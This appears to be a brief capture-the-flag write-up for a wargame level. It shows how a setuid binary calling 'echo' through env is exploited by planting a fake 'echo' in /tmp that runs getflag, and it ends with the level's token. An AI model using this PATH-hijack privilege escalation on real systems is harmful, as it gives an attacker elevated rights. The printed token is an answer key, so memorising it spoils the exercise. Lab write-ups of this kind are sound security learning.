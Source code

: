 ## Level 03

we have a level03 file, it have some specific rights access
```-rwsr-sr-x```
when we execute it, we have this message
./level03
```Exploit me```
first, i've tried to exploit it with nm ./level03 to see what functions are used, but i've don't get a lot of things interessting. So i've made it with strings ./level03 and i've seen more interesting stuff
```/usr/bin/env echo Exploit me```
So you have to replace the echo function with your own (a getflag to)
```echo getflag > /tmp/echo```
```chmod 777 /tmp/echo```
```./level03```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus